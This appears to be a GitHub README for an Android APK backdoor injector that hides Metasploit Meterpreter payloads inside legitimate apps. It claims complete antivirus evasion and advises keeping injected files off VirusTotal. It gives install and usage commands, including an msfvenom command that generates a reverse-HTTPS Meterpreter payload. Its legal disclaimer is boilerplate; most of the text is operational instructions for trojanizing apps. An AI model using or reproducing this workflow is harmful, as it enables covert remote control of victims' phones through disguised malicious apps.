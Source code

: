 # Metasploit-APK-Backdoor-Injector

## Overview

Advanced Android APK backdoor injection tool for security professionals, providing complete AV evasion for Metasploit payloads injected into legitimate applications. Supports all application architectures, frameworks, and protection mechanisms.

> **IMPORTANT: Please do not upload injected files to VirusTotal.com**  
> Use nodistribute.com or manual scanning on isolated test devices only.

**This tool is for legitimate security testing only. Unauthorized use is illegal.**

## Key Features

- **100% AV Evasion** - 
- **Universal Application Compatibility** - Works with all Android applications regardless of complexity, protection level, or framework
- **Framework-Specific Support** - Automatic detection and specialized handling for:
  - Standard Android apps
  - Unity-based games and applications
  - Flutter applications
  - React Native applications
  - Hybrid applications
- **Native Code Integration** - Seamlessly works with applications using NDK, JNI, and other native components
- **Integrity Check Preservation** - Advanced algorithms that preserve application integrity validation mechanisms
- **ProGuard Compatibility** - Handles heavily obfuscated applications without degradation
- **Multi-Architecture Support** - Compatible with ARM, ARM64, x86, x86_64, and hybrid architectures
- **Advanced Obfuscation Engine** - Military-grade obfuscation using dynamic randomization and polymorphic code techniques
- **Intelligent Injection** - Automatically identifies optimal injection points with ~99% success rate (up from 70%)
- **Comprehensive Recovery System** - Advanced error handling for even the most complex apps

## Quick Start

### Installation

```bash
# Clone the repository or download the script
git clone https://github.com/your-username/metasploit-apk-backdoor-injector.git

# Make the script executable
chmod +x apkinjector

# Move to system path (optional)
sudo mv apkinjector /usr/local/bin/
```

### First Run Setup

On first execution, the script will:
- Download and install the latest APKTool version
- Generate a debug keystore for signing (stored in ~/.android/)
- Install required dependencies

> **Note:** To customize signatures for each build, remove the debug keystore before running the script: `rm ~/.android/debug.keystore`

### Basic Usage

```bash
# Simple usage with default options
apkinjector payload.apk target.apk

# Advanced usage with custom options
apkinjector -s 3 -f unity -o custom_output.apk payload.apk target.apk
```

### Generating the Payload

Create your payload using msfvenom:

```bash
msfvenom -p android/meterpreter/reverse_https LHOST=<IP> LPORT=<PORT> -o payload.apk
```

## Advanced Options

```
OPTIONS:
    -h, --help                Show help message
    -v, --version             Display version information
    -d, --debug               Enable debug mode with verbose output
    -o, --output FILE         Specify output filename (default: injected_TARGET.apk)
    -f, --framework TYPE      Specify framework type (auto, native, unity, flutter, react)
    -i, --integrity LEVEL     Set integrity preservation level (0-3, default: 2)
    -n, --no-native           Disable native code support
    -c, --clean               Clean all temporary files before and after execution
    -s, --stealth LEVEL       Set stealth/obfuscation level (1-3, default: 2)
    -k, --keystore FILE       Use custom keystore for signing
    -p, --password PASS       Keystore password
```

## Success Rates

- **AV Evasion:** 100% 
- **Automatic Injection:** ~99% success across tested applications
- **Framework Compatibility:** 100% for supported frameworks
- **Integrity Preservation:** ~95% success in preserving application integrity checks

## Troubleshooting

### Common Issues

If you encounter problems:

1. **Enable debug mode** for detailed logging: `apkinjector -d payload.apk target.apk`

2. **Examine temporary files** by adding the debug flag and preventing automatic cleanup:
   ```bash
   apkinjector -d payload.apk target.apk
   # Temporary files will be in the logged location
   ```

3. **Framework detection issues** - Manually specify the framework type:
   ```bash
   apkinjector -f unity payload.apk game.apk
   ```

4. **APKTool errors** - The script handles most APKTool issues automatically, but for persistent problems, try:
   ```bash
   # Update APKTool manually
   rm ~/.apkinjector/tools/apktool/apktool.jar
   # Then run the script again, which will download the latest version
   ```

### Output Files

- **Main output:** `injected_target.apk` (or custom name if specified with `-o`)
- **Logs:** Located in the temporary directory (path shown in debug output)
- **Mapping files:** Stored in `~/.apkinjector/mappings/` for reference

## Security Considerations

The modified application:
- Requires user installation with "Unknown Sources" enabled
- Must be launched at least once to establish connection
- Contains extensive permissions visible to the user
- May trigger security warnings on modern Android versions

## Ethical Usage Guidelines

This tool should ONLY be used:
- For authorized security assessments
- In controlled testing environments
- On systems you own or have permission to test
- In accordance with all applicable laws

## License

This project is licensed under the MIT License - see the LICENSE file for details.

- [![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://opensource.org/licenses/MIT)
![Version](https://img.shields.io/badge/Version-3.5.0-blue.svg)
![Platform](https://img.shields.io/badge/Platform-Android-green.svg)
![Framework Support](https://img.shields.io/badge/Frameworks-All-purple.svg)
